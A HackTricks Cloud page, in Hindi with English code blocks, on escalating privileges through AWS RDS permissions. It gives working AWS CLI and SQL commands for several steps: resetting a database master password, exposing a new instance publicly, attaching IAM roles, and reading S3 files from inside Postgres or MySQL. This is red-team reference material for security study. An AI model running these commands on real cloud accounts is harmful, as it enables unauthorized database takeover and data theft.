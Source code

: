# AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - रिलेशनल डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

उस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क करने** में सक्षम होना चाहिए (वे आमतौर पर केवल आंतरिक नेटवर्क से सुलभ होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़ों**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति के साथ एक उपयोगकर्ता DB इंस्टेंस से कनेक्ट कर सकता है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग

#### Postgresql (Aurora)

{% hint style="success" %}
यदि आप **`SELECT datname FROM pg_database;`** चलाते हैं और आपको **`rdsadmin`** नामक एक डेटाबेस मिलता है, तो आप जानते हैं कि आप एक **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुंचने के लिए किया गया है। आप स्थापित एक्सटेंशन को देखकर यह जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप मान सकते हैं कि इस डेटाबेस के पास **S3 पर कुछ प्रकार की पहुंच है** (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप वहां देख सकते हैं कि **क्लस्टर में कोई IAM भूमिका संलग्न है** या नहीं, क्षेत्र **`AssociatedRoles`** में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुंच के लिए तैयार किया गया था**। **भूमिका के नाम** के आधार पर (या यदि आप भूमिका के **अनुमतियों** को प्राप्त कर सकते हैं) आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास क्या अतिरिक्त पहुंच है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** हैं, तो आप उन्हें S3 डेटा तक पहुँचने के लिए भी उपयोग कर सकते हैं:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **को S3 तक पहुँचने के लिए किसी भी पैरामीटर समूह के चर को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql के अंदर, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

Mysql के अंदर **`show variables;`** चलाएँ और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप देख सकते हैं कि क्या क्लस्टर के पास कोई **संबंधित भूमिका** है, जिसका आमतौर पर मतलब AWS सेवाओं तक पहुँच है।

अब, एक **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंचने** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे पैरामीटर समूहों में भूमिका ARN निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

इस अनुमति के साथ एक हमलावर एक **क्लस्टर के अंदर एक नया उदाहरण** बना सकता है जो पहले से मौजूद है और जिसमें एक **IAM भूमिका** संलग्न है। वह मास्टर उपयोगकर्ता पासवर्ड को बदलने में असमर्थ होगा, लेकिन वह नए डेटाबेस उदाहरण को इंटरनेट पर उजागर करने में सक्षम हो सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: टेस्ट
{% endhint %}

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` की अनुमति है, **एक निर्दिष्ट भूमिका के साथ एक नया RDS उदाहरण बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुँच सकता है** या उदाहरण के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
संलग्न करने के लिए भूमिका/उदाहरण-प्रोफ़ाइल की कुछ आवश्यकताएँ (से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल आपके खाते में मौजूद होनी चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 द्वारा ग्रहण करने की अनुमति हो।
* उदाहरण प्रोफ़ाइल नाम और संबंधित IAM भूमिका नाम को `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBInstance` और `iam:PassRole` की अनुमति है, **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुँच** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।

{% hint style="warning" %}
DB उदाहरण को क्लस्टर के बाहर होना चाहिए इसके लिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
